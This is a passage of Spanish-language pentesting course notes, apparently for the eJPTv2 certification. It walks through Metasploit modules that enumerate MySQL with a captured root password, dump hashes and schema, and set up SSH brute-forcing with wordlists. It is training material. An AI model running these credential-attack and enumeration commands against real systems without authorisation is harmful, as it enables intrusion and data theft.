 En este ejemplo, hemos obtenido la contraseña para el usuario “root”. Nos viene bien, porque para el siguiente módulo que vamos a utilizar, necesitamos credenciales.

```bash
use auxiliary/admin/mysql/mysql_enum
set PASSWORD twinkle
set USERNAME root
```

Este módulo nos devuelve mucha información sobre la base de datos, incluida una lista de cuentas con los hashes de las contraseñas. También tenemos información sobre permisos. El siguiente módulo que vamos a utilizar también requiere credenciales. Nos será muy útil, ya que permite ejecutar consultas a la base de datos.

```bash
search mysql_slq
use auxiliary/admin/mysql/mysql_sql
set PASSWORD twinkle
set USERNAME root
set SQL show databases;
```

Para obtener más información del esquema de la base de datos, podemos utilizar el siguiente módulo:

```bash
use auxiliary/scanner/mysql/mysql_schemadump
```

Podemos conectarnos directamente a la base de datos desde la terminal desde el momento en que conseguimos las credenciales. Podemos hacerlo con el siguiente comando:

```bash
mysql -h <IP_target> -u <user_name> -p
```

### Enumeración SSH

Es un protocolo de administración remota (Secure Shell). Utilizado típicamente para conexiones remotas a servidores y sistemas. Corre normalmente en el puerto 22. Vamos a utilizar un módulo de Metasploit para obtener la versión del servicio:

```bash
use auxiliary/scanner/ssh/ssh_version
```

A continuación, usamos el módulo de fuerza bruta para encontrar credenciales:

```bash
use auxiliary/scanner/ssh/ssh_login
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

![image.png](Curso%20EJPTv2%20194403fef4da80df82fada01929fa777/image%2042.png)
